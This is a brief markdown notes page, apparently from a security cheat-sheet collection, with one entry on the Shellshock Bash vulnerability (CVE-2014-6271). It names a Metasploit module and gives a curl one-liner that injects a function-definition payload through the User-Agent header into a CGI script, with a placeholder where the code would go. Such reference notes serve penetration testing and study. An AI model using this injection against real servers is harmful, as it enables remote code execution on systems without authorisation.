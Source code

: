 # CVE Exploits

Random CVE exploits notes.

<hr class="sep-both">

## CVE 2014

<div class="row row-cols-lg-2"><div>

#### CVE-2014-6271

⚠️ Bash `[<4.3]` has a vulnerability called [shellshock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271), that can also be exploited with metasploit (`apache_mod_cgi_bash_env_exec`):

```shell!
$ curl -H 'User-Agent: () { :; }; <write code here>' 'URL/cgi-bin/some_script'
```
</div><div>
</div></div>